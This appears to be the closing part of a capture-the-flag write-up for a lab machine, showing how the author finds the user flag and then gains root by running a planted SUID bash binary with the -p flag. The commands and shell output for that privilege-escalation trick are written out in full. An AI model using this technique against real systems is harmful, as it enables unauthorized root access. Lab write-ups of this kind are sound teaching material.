 Now that we've got into the backdoor, let's look around with ls and cd.

Navigate to the home directory to find the user flag (cd ~ or cd).

**3) What's the root flag?**

When I was listing james' home directory, I used ls -a and found a very interesting bash file.

```
ls -a
.              .bash_logout  .gnupg     .profile                   ssh-backdoor                                                                   
..             .bashrc       .local     .sudo_as_admin_successful  user.txt
.bash_history  .cache        .overpass  .suid_bash                 www
```

Let's try to run the bash and see if it escalates us to root.

```
./.suid_bash
.suid_bash-4.4$ whoami
james
.suid_bash-4.4$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
.suid_bash-4.4$ cd /root
.suid_bash: cd: /root: Permission denied
.suid_bash-4.4$ 
```

I tried putting sudo in front of the bash execution, but james' password is not the same as the ssh backdoor or what the password was previously (whenevernoteartinstant).

Unfortunately, we still do not have permissions but this file might be able to escalate us, we need to check if it has the proper SUID.

If we run ls -lah on the home directory, we see that .suid_bash is exactly what we need to get root. It looks like it was implemented by the hacker.

```
-rwsr-sr-x 1 root  root  1.1M Jul 22  2020 .suid_bash
```

After some research, I believe I will be able to exploit this using [GTFOBINs](https://gtfobins.github.io/gtfobins/bash/).

Let's go ahead and run it with -p to carry over the SUID privileges for root.

```
./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# 
```

Owned, let's cd to /root and cat the flag :)

### Congratulations! You're done with the room!
